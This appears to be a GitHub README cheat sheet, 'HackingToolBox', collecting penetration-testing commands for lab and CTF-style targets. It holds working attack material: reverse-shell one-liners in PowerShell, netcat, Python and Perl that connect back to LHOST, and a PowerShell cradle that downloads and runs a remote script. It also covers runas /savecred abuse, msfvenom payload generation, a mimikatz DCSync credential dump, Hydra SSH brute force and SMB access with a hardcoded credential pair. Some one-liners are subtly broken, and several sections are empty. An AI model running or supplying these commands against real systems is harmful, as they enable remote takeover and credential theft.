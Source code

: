 # HackingToolBox
![image](https://user-images.githubusercontent.com/62963762/78167617-0dbdc380-744f-11ea-926d-915dc78722a1.png)  
**RHOST** : Ip address of the target machine  
**RPORT** : Listening port of the target machine  
**LHOST** : Ip address of the auditor computer  
**LPORT** : Listening port of the auditor computer  


## Énumération
### Windows 
### Linux 
sudo -l
kernel

--> We can then list the SUID/SGID binaries available to us by running LinEnum.sh or the following bash command:

```find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID```  

--> Script enumeration local :  
LinEnum.sh

--> Scipt enumeration à distance :  
```enum4linux -a RHOST```
### Nmap
### FTP (File Transfer Protocol)
### LDAP
```
ldapsearch -x -b <search_base> -H <ldap_host>
```
### SMB  
```smbclient -U "SABatchJobs%SABatchJobs" -L 10.10.10.172  
smbclient -U "SABatchJobs%SABatchJobs" \\\\10.10.10.172\\users$
smbclient -N -L RHOST
```

### Web
**gobuster :** tool to bruteforce directory and file

  
`dir` mode :
  
```bash
gobuster dir -u http://RHOST -t 50 -w wordlist.txt -x .php,.html,.htm
```

```bash
Flags:
  -f, --addslash                      Append / to each request
  -c, --cookies string                Cookies to use for the requests
  -e, --expanded                      Expanded mode, print full URLs
  -x, --extensions string             File extension(s) to search for
  -r, --followredirect                Follow redirects
  -H, --headers stringArray           Specify HTTP headers, -H 'Header1: val1' -H 'Header2: val2'
  -h, --help                          help for dir
  -l, --includelength                 Include the length of the body in the output
  -k, --insecuressl                   Skip SSL certificate verification
  -n, --nostatus                      Don't print status codes
  -P, --password string               Password for Basic Auth
  -p, --proxy string                  Proxy to use for requests [http(s)://host:port]
  -s, --statuscodes string            Positive status codes (will be overwritten with statuscodesblacklist if set) (default "200,204,301,302,307,401,403")
  -b, --statuscodesblacklist string   Negative status codes (will override statuscodes if set)
      --timeout duration              HTTP Timeout (default 10s)
  -u, --url string                    The target URL
  -a, --useragent string              Set the User-Agent string (default "gobuster/3.0.1")
  -U, --username string               Username for Basic Auth
      --wildcard                      Force continued operation when wildcard found

Global Flags:
  -z, --noprogress        Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist
```

`dns` mode :
```bash
gobuster dns -d http://RHOST -t 50 -w wordlist.txt
```
```bash
Flags:
  -d, --domain string      The target domain
  -h, --help               help for dns
  -r, --resolver string    Use custom DNS server (format server.com or server.com:port)
  -c, --showcname          Show CNAME records (cannot be used with '-i' option)
  -i, --showips            Show IP addresses
      --timeout duration   DNS resolver timeout (default 1s)
      --wildcard           Force continued operation when wildcard found

Global Flags:
  -z, --noprogress        Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist 
```

## One-liner reverse shell
command to execute on the listener side to connect to the remote machine :
```bash
nc -lvp LPORT
```

### powershell
In http://LHOST/shell.ps1 :  
```shell
$client = New-Object System.Net.Sockets.TCPClient('LHOST',LPORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
In target machine :  
```START /B "" powershell -c IEX (New-ObjectNet.Webclient).downloadstring('http://LHOST/shell.ps1') ```

A useful command to run when beginning enumeration, which displays stored user names and passwords or credentials :  
```cmdkey /list```
Exploitation to have reverse shell :  
``` runas /user:[user]\Administrator /savecred "powershell -c IEX (New-ObjectNet.Webclient).downloadstring('http://LHOST/shell.ps1')"```  
Exploitation to run command :  
```runas /savecred /user:[user]\Administrator "cmd.exe /C [CMD]"```

### netcat
Linux : 
```bash
nc LHOST LPORT -e /bin/bash
```
Windows :
```bat
nc.exe LHOST LPORT -e cmd.exe
```
### python
Linux : 
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)s.connect(("LHOST",LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Windows : 
```bat
C:\Python26\python.exe -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['C:\\WINDOWS\\system32\\cmd.exe','-i']);"
```
### perl
```perl
perl -e 'use Socket;$i="LHOST";$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")) if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### bash
### php
### ruby
### telnet
### socat
### java

## Exploitation
### msfvenom
```
msfvenom -p [payload] lhost=[Adresse_Kaili] lport=[Port_Kali] -f [format (exe,jsp ...)]
msfvenom -p java/jsp_shell_reverse_tcp lhost=[Adresse_Kaili] lport=[Port_Kali] -f raw > writeup.jsp
msfvenom -p windows/meterpreter/reverse_tcp lhost=<LAB IP> lport=<PORT> -f exe > writeup.exe
```
### metasploit
### searchsploit
### evil-winrm
```
evil-winrm -i [adresseIP] -u [USER] -H/-p [HASH/Password]
```
### mimikatz
```
.\mimikatz.exe "lsadump::dcsync /user:Administrator" "exit"
```

## Bruteforce
### John the ripper
### Hydra
bruteforce ssh login :  
`hydra -L user.txt -P /usr/share/wordlists/rockyou.txt RHOST -t 5 ssh -I`

## Host discovery 

for /24 :  
for i in $(seq 254); do ping 10.13.37.$i -c1 -W1 & done | grep from  

